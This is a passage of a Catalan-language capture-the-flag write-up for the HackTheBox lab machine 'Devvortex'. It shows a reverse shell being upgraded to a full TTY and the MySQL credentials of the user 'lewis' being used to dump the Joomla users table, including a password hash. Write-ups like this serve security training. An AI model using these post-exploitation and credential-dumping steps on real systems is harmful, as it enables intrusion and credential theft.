 
Les comandes en ordre han estat les següents:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
export TERM=xterm`
```

I ara accedirem a la BD mysql:

```
`www-data@devvortex:/$ mysql -u lewis -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 142
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)
Copyright (c) 2000, 2023, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
````

Ara mirarem les BD que hi ha i seleccionarem la joomla:

```
`mysql> show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| joomla |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql>
Ara mirem les taules i en veiem una que es diu users, és la que seleccionarem:
mysql> select * from sd4fg_users
 -> ;
+-----+------------+----------+---------------------+--------------------------------------------------------------
+-------+-----------+---------------------+---------------------+------------
+----------------------------------------------------------------------------------------------------------------------
-----------------------------------+---------------+------------+--------+------+--------------+--------------+
| id | name | username | email | password | block |
sendEmail | registerDate | lastvisitDate | activation | params
| lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------
+-------+-----------+---------------------+---------------------+------------
+----------------------------------------------------------------------------------------------------------------------
-----------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis | lewis | lewis@devvortex.htb |
$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u | 0 | 1 |
2023-09-25 16:44:24 | 2024-04-03 16:52:12 | 0 |
| NULL | 0 | | | 0 | |
```